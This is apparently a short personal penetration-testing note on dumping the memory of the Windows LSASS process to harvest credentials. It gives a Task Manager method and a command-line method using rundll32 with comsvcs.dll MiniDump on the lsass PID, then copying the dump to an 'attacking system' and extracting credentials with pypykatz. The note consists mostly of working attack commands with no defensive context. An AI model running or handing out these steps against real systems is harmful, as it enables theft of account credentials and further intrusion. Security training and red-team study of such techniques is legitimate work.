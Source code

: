 #### Dump LSASSY (GUI)

Right click Local Security Authority Process - create dump file.

![[Pasted image 20250121175948.png]]

Copy dmp file to attacking system, then run pypykatsz

```bash
pypykatz lsa minidump lsass.DMP
```

#### Dump LSASSY (CLI)

First find lsass.exe in using either cmd or a PowerShell prompt. We need to take note of the PID

CMD:

![[Pasted image 20250121180343.png]]

Powershell: 

![[Pasted image 20250121180642.png]]

In an elevated PowerShell prompt run the following:

```bash
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 656 C:\windows\tasks\lsass.dmp full
```

Then copy over to attacking system, and extract using the pypykatz mentioned above